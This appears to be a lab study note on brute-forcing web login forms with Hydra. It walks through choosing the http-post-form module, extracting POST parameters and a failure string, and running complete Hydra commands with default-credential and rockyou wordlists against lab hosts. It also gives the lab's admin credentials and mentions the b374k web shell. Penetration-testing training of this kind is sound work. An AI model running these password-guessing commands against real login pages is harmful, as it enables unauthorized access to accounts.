 # 👨‍⚖️ Web Forms Brute Forcing

Many admin panels have also implemented features or elements such as the [b374k shell](https://github.com/b374k/b374k) that might allow us to execute OS commands directly.

Here is a command to see all of the requests we can use in hydra:

```shell-session
hydra -h | grep "Supported services" | tr ":" "\n" | tr " " "\n" | column -e
```

Here are some `http` modules that are interesting for us:

1. `http[s]-{head|get|post}`
2. `http[s]-post-form`

The 1st module serves for basic HTTP authentication, while the 2nd module is used for login forms, like `.php` or `.aspx` and others.

To decide which module needs to be used, we need to know if the application uses `GET` or a `POST` form. We can test it by trying to log in and pay attention to the URL. If we recognize that any of our input was pasted into the `URL`, the web application uses a `GET` form. Otherwise, it uses a `POST` form.

Our URL does not change, we know that the web application uses a `POST` form so let's use `http-post-form` module and use the "`-U`" flag to list the parameters it requires

so in our case we need:

* `URL path`, which holds the login form
* `POST parameters` for username/password
* `A failed/success login string`, which lets hydra recognize whether the login attempt was successful

```shell-session
/login.php:[user parameter]=^USER^&[password parameter]=^PASS^:[FAIL/SUCCESS]=[success/failed string]
```

And if we do not see any error message, we can go ahead and specify something from the source code like `<form name='login'`, which should be distinct enough and will probably not exist after a successful login.

So here will be our final request:

```bash
"/login.php:[user parameter]=^USER^&[password parameter]=^PASS^:F=<form name='login'"
```

to have the parameters we need we can simply go and look at the inspector panel:

<figure><img src="../../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This would give us the following POST parameters:

```bash
username=test&password=test
```

Or the copy as curl would give us plenty of informations as well as the parameters we need:

<pre><code><strong>...&#x3C;SNIP>    --data-raw 'username=test&#x26;password=test'
</strong></code></pre>

and of course in burp we can also get those informations:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So the final parameters would look something like that:

```bash
"/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```

We can start by looking for default credentials with the `ftp-betterdefaultpasslist.txt`

And so, the FINAL PAYLOAD will come out like this:

```shell-session
hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```

_**Using what you learned in this section, try attacking the '/login.php' page to identify the password for the 'admin' user. Once you login, you should find a flag. Submit the flag as the answer.**_

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2).png" alt=""><figcaption><p>username=admin password=admin</p></figcaption></figure>

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt.gz 94.237.51.88 -s 52477 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<input name='username'" -V
```

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
